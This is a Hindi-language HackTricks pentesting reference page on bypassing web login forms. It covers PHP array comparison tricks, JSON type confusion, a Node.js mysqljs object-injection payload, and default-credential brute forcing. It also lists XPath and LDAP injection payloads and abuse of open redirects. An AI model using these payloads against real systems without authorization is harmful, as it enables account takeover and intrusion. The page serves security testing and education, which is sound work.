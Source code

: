 # Login Bypass

{{#include ../../banners/hacktricks-training.md}}

## **सामान्य लॉगिन बायपास करें**

यदि आप एक लॉगिन पृष्ठ पाते हैं, तो यहां कुछ तकनीकें हैं जिन्हें आप इसे बायपास करने के लिए आजमा सकते हैं:

- पृष्ठ के अंदर **टिप्पणियों** की जांच करें (नीचे और दाईं ओर स्क्रॉल करें?)
- जांचें कि क्या आप **प्रतिबंधित पृष्ठों** तक **प्रत्यक्ष पहुंच** प्राप्त कर सकते हैं
- **पैरामीटर न भेजें** (कोई भी न भेजें या केवल 1)
- **PHP तुलना त्रुटि की जांच करें:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **सामग्री प्रकार को json में बदलें** और json मान भेजें (bool true शामिल)
- यदि आपको एक प्रतिक्रिया मिलती है जो कहती है कि POST समर्थित नहीं है, तो आप **GET अनुरोध के साथ शरीर में JSON भेजने** की कोशिश कर सकते हैं `Content-Type: application/json`
- nodejs संभावित पार्सिंग त्रुटि की जांच करें (पढ़ें [**यहां**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
- Nodejs उस पेलोड को निम्नलिखित क्वेरी में बदल देगा: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` जो पासवर्ड बिट को हमेशा सत्य बनाता है।
- यदि आप एक JSON ऑब्जेक्ट भेज सकते हैं, तो आप लॉगिन बायपास करने के लिए `"password":{"password": 1}` भेज सकते हैं।
- याद रखें कि इस लॉगिन को बायपास करने के लिए आपको अभी भी **एक मान्य उपयोगकर्ता नाम जानने और भेजने की आवश्यकता है**।
- **`mysql.createConnection`** को कॉल करते समय `"stringifyObjects":true` विकल्प जोड़ने से अंततः **जब `Object` पैरामीटर में पास किया जाता है तो सभी अप्रत्याशित व्यवहारों को रोक देगा**।
- क्रेडेंशियल्स की जांच करें:
- [**डिफ़ॉल्ट क्रेडेंशियल्स**](../../generic-hacking/brute-force.md#default-credentials) का उपयोग की गई तकनीक/प्लेटफ़ॉर्म
- **सामान्य संयोजन** (रूट, एडमिन, पासवर्ड, तकनीक का नाम, इनमें से किसी एक पासवर्ड के साथ डिफ़ॉल्ट उपयोगकर्ता)।
- **Cewl** का उपयोग करके एक शब्दकोश बनाएं, **डिफ़ॉल्ट** उपयोगकर्ता नाम और पासवर्ड (यदि है) जोड़ें और सभी शब्दों का उपयोग करके इसे **ब्रूट-फोर्स** करने की कोशिश करें **उपयोगकर्ता नाम और पासवर्ड के रूप में**
- **बड़े शब्दकोश का उपयोग करके ब्रूट-फोर्स करें (**[**ब्रूट फोर्स**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection प्रमाणीकरण बायपास

[यहां आप **SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../sql-injection/#authentication-bypass)।

अगली पृष्ठ पर आप **SQL इंजेक्शन के माध्यम से लॉगिन बायपास करने के लिए एक कस्टम सूची** पा सकते हैं:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### No SQL Injection प्रमाणीकरण बायपास

[यहां आप **No SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../nosql-injection.md#basic-authentication-bypass)**।**

चूंकि NoSQL इंजेक्शन को पैरामीटर मान बदलने की आवश्यकता होती है, इसलिए आपको उन्हें मैन्युअल रूप से परीक्षण करने की आवश्यकता होगी।

### XPath Injection प्रमाणीकरण बायपास

[यहां आप **XPath इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection प्रमाणीकरण बाईपास

[यहाँ आप **LDAP Injection** के माध्यम से लॉगिन बाईपास करने के लिए कई तरकीबें पा सकते हैं।](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### याद रखें

यदि पृष्ठ में "**याद रखें**" कार्यक्षमता है, तो जांचें कि इसे कैसे लागू किया गया है और देखें कि क्या आप इसका दुरुपयोग करके **अन्य खातों पर नियंत्रण** प्राप्त कर सकते हैं।

### रीडायरेक्ट्स

पृष्ठ आमतौर पर लॉगिन के बाद उपयोगकर्ताओं को रीडायरेक्ट करता है, जांचें कि क्या आप उस रीडायरेक्ट को बदल सकते हैं ताकि [**ओपन रीडायरेक्ट**](../open-redirect.md) का कारण बन सके। शायद आप कुछ जानकारी (कोड, कुकीज़...) चुरा सकते हैं यदि आप उपयोगकर्ता को अपने वेब पर रीडायरेक्ट करते हैं।

## अन्य जांचें

- जांचें कि क्या आप लॉगिन कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ता नामों** की **गणना** कर सकते हैं।
- जांचें कि क्या पासवर्ड/**संवेदनशील** जानकारी **फॉर्म** **इनपुट:** `<input autocomplete="false">` में **स्वतः पूर्ण** सक्रिय है।

## स्वचालित उपकरण

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
